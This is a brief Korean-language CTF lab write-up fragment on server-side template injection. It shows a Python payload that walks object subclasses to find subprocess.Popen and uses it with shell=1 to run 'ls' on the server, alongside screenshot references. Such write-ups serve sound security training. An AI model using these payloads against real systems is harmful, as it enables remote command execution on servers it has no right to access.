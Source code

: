 슬라이싱을 통해 몇 번째 클래스가 `subprocess.Popen`인지 찾아야함

|

```python
"".__class__.__mro__[1].__subclasses__()[351]
```

![8.1 SSTI - server flag 11](/assets/images/writeup/web-hacking/knock-on/8-1_SSTI_11.png)

찾음

|

```python
"".__class__.__mro__[1].__subclasses__()[351]('ls', shell = 1, stdout = -1).communicate()
```

![8.1 SSTI - server flag 12](/assets/images/writeup/web-hacking/knock-on/8-1_SSTI_12.png)
